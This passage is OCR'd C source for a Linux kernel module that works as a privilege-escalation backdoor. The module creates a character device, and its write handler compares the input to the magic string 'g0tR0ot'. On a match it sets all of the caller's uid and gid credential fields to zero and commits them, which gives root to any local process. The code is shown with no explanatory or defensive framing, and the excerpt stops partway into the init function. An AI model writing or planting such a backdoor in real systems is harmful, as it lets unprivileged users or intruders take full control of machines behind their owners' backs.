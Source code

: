 ```c
static struct class*  rootcharClass  = NULL;
static struct device* rootcharDevice = NULL;

static struct file_operations fops =
{
  .owner = THIS_MODULE,
  .open = root_open,
  .read = root_read,
  .write = root_write,
};

static int
root_open (struct inode *inode, struct file *f)
{
   return 0;
}

static ssize_t
root_read (struct file *f, char *buf, size_t len, loff_t *off)
{
  return len;
}

static ssize_t
root_write (struct file *f, const char __user *buf, size_t len, loff_t *off)
{ 
  char   *data;
  char   magic[] = "g0tR0ot";

  struct cred *new_cred;
  
  data = (char *) kmalloc (len + 1, GFP_KERNEL);
    
  if (data)
    {
      copy_from_user (data, buf, len);
        if (memcmp(data, magic, 7) == 0)
	  {
	    if ((new_cred = prepare_creds ()) == NULL)
	      {
		return 0;
	      }
	    V(new_cred->uid) = V(new_cred->gid) =  0;
	    V(new_cred->euid) = V(new_cred->egid) = 0;
	    V(new_cred->suid) = V(new_cred->sgid) = 0;
	    V(new_cred->fsuid) = V(new_cred->fsgid) = 0;
	    commit_creds (new_cred);
	  }
        kfree(data);
      }
    
    return len;
}


static int __init
root_init(void)
{
  // Create char device
  if ((majorNumber = register_chrdev(0, DEVICE_NAME, &fops)) < 0)
    {
      return majorNumber;
    }
```